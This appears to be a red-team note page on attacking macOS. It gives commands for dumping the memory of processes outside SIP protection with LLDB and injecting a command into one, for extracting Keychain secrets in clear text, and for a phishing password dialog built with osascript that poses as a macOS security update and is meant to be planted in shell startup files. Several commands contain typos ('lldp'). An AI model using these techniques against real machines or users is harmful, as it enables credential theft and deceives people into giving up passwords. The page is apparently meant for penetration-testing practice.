 # MacOS
---
# Navigation
1. **[[#Process memory]]**
2. **[[#MacOS keychain]]**
3. **[[#Phishing and credential dialog spoofing]]**
---
# Process memory
Apple made it more difficult to debug or dump process memory, even as root. Apple introduced a feature called **`System Integrity Protection (SIP)`** that limits what even the root user can do to the operating system.
```bash
# Check if SIP is enabled
csrutil status
```
If SIP is enabled, you cannot debug or inspect
these processes easily, even when running as root.
> **Important Note:**
>  SIP only protects certain folders and binaries (by default no third-party software), and ones that have proper signatures.
>  You can find protected files in: `/System/Library/Sandbox/rootless.conf`
>  or by executing the following command:
>  `ls -lhaO /Applications/ | grep -v restricted`

But the good news is that even if SIP is enabled, you can still debug certain processes using tools such as **`Low-Level Debugger (LLDB)`**. 
After finding a running process not covered by SIP, attach the LLDB debugger to it.
```bash
lldp -p <pid>
# Attach process
(lldp) process attach --pid <pid>
# Dump process memory
(lldp) process save-core
```
> You can inject code into memory:
> `(lldb) p (void) system("whoami &> /tmp/log.txt")`

![[Linux#2- Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome]]

---
# MacOS keychain
Apple introduced a consistent requirement for users to enter their password interactively whenever the Keychain is accessed to decrypt secrets, which makes it more difficult for malware to gain access. The tool to interact with Keychains is called  **`security`**.
Depending on the **macOS version** of the host, the following commands might allow you to get access to encrypted credentials. The  **`-d`**  option shows the **clear text** credentials:

```bash
security dump-keychain -d
```
There are various options to search and interact with Keychains. To find the specific stored password of an email account, we can use the following command:
```bash
security find-internet-password -a "someaccount@gmail.com" -w
```
The good thing (bad for the red teamer) about the Keychain is that it requires the user's password to access and open:

![[keychainpopup.png]]

If the Keychain is locked, it can be unlocked with this command:
```bash
security unlock-keychain
```
This will prompt for the user's password to unlock the Keychain (if it is locked):

![[keychainpopup2.png]]

---
# Phishing and credential dialog spoofing
## 1- Spoofing a credential prompt using osascript
```bash
osascript -e 'display notification "Hello World!"'
```

![[osascript.png]]

- Create a password dialog
```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a
security update macOS needs your password." with title "macOS
Security Update" default answer "" with icon stop with hidden
answer')

echo $PWD_SPOOF
```

![[osascriptPWD.png]]

> **Note:**
>  One of the ways to deploy this is by putting it in ~/.profile or ~/.bashrc or by sending it in a file.


